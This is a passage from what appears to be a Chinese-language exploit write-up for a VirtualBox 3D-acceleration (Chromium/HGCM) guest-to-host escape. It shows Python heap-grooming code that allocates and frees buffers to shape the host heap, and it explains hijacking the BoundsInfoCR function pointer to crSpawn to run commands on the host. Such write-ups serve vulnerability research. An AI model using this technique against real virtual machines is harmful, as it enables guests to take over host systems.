 ```python

    # 占位避免合并
    for i in range(120):
       alloc_buf(client, 0x20)

    raw_input("try to make hole...")

    # 间隔释放 pBuf
    for idx in buf_ids[::2]:
        hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [idx, "A"*0x40, 0])

    # 按照 0x50 和 0x20 的 Size 组合连续申请 pBuf
    for i in range(40):
        spray_ids.append(alloc_buf(client, 0x50))
        alloc_buf(client, 0x20)

    # 间隔释放 size 为 0x50 的 pBuf，给 crServerDispatchReadPixels 凿洞
    for idx in spray_ids[::-2]:
        hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [idx, "A"*0x40, 0])
```

有任意地址写的能力后，劫持 cr\_unpackDispatch.BoundsInfoCR 函数指针为 crSpawn 函数，然后找个地方写入要执行的命令，通过 CR\_BOUNDSINFOCR\_OPCODE 命令即可触发 crSpawn 的执行.

```c
void crUnpackBoundsInfoCR( void  )
{
    CRrecti bounds;
    GLint len;
    GLuint num_opcodes;
    GLbyte *payload;

    len = READ_DATA( 0, GLint );
    bounds.x1 = READ_DATA( 4, GLint );
    bounds.y1 = READ_DATA( 8, GLint );
    bounds.x2 = READ_DATA( 12, GLint );
    bounds.y2 = READ_DATA( 16, GLint );
    num_opcodes = READ_DATA( 20, GLuint );
    payload = DATA_POINTER( 24, GLbyte );

    cr_unpackDispatch.BoundsInfoCR( &bounds, payload, len, num_opcodes );
    INCR_VAR_PTR();
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-d91df8470d4d33b83129ab2fa68a39065a673fdf.png)  
‍

Part2 堆风水过程中的问题解决
=================

本节介绍调试堆风水中遇到的坑，以及定位和解决的思路，能复现该问题的 commit
